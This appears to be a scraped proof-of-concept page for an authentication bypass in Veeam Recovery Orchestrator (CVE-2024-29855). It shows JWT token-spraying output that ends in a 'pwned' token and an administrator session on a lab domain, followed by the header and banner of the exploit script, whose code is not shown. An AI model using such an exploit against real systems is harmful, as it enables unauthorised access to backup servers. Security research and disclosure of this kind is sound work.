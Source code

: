```
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(INFO) Spraying JWT Tokens: 401
(+) Pwned Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.gpvNsv78cZRt6qelKMIzprAQG_Eva6pKyNLLGIrnXkA, Status code: 200
(+) Response: {"user":"administrator@evilcorp.local","siteName":null,"siteRole":"Unknown","isLogged":true,"formats":{"shortTime":"H:i","longTime":"H:i:s","shortDate":"m/d/Y","shortTimeHR":"HH:mm","longTimeHR":"HH:mm:ss","shortDateHR":"MM/dd/yyyy","firstDayOfWeek":"Sunday"},"roles":["SiteSetupOperator"],"siteScopeRoles":[{"id":"00000000-0000-0000-0000-000000000000","name":"All Scopes","roles":[]}],"displayUserName":"EVILCORP\\Administrator","uiTimeout":3600,"dnsName":"WIN-I61UGP29579.evilcorp.local","domainName":"evilcorp.local"}
```  
  
  
概念验证  
```
"""
Veeam Backup Enterprise Manager Authentication Bypass (CVE-2024-29855)
Exploit By: Sina Kheirkhah (@SinSinology) of Summoning Team (@SummoningTeam)
Technical details: https://summoning.team/blog/veeam-recovery-Orchestrator-auth-bypass-CVE-2024-29855/
"""


banner = r"""
 _______ _     _ _______ _______  _____  __   _ _____ __   _  ______   _______ _______ _______ _______
 |______ |     | |  |  | |  |  | |     | | \  |   |   | \  | |  ____      |    |______ |_____| |  |  |
 ______| |_____| |  |  | |  |  | |_____| |  \_| __|__ |  \_| |_____| .    |    |______ |     | |  |  |

        (*) Veeam Recovery Orchestrator Authentication Bypass (CVE-2024-29855) 

        (*) Exploit by Sina Kheirkhah (@SinSinology) of SummoningTeam (@SummoningTeam)

        (*) Technical details: https://summoning.team/blog/veeam-recovery-Orchestrator-auth-bypass-CVE-2024-29855/

        """

""""""

```